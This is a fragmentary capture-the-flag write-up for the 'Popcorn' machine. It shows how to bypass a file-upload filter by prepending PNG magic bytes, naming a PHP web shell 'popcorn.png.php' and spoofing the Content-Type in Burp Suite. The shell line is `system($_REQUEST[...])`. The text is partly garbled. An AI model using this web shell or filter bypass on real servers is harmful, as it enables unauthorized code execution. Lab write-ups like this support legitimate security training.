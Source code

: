 ###### code

```sh
echo iVBORw0KGgoAAAANSUhEUgAABDoAAAEVCAYAAAAB74X9AAAgAElEQVR4nOzdd3hU1dbH8e+ZmfQCJPTepYl0kd5CFRAFBVHsYMderlgRlWq7FrC3a0NUUIpdQQXEAor03juE9GTmvH+MvHqvqMwpM5Pk93mePM+9wtk= |base64 -d > file
```

![](/Linux/Linux-Medium/Popcorn/Screenshots/bytespopcorn.png)

so we would copy part of that to our php file so that we can be able to bypass the filter. so we just have to change the `filename`: to add a `.png.php` and `Content Type` .Creating a PHP file named `popcorn.png.php `with the contents of `?php echo system($_REQUEST['ipp’]); ?>` will pass the first check with no issues. To bypass the second check, it is possible to intercept the request with Burp Suite and modify the request. Simply changing `application/php` to `image/png` in the POST data is all that is required

![](/Linux/Linux-Medium/Popcorn/Screenshots/uploadsuccess.png)

```code 
"
PNG

   
```
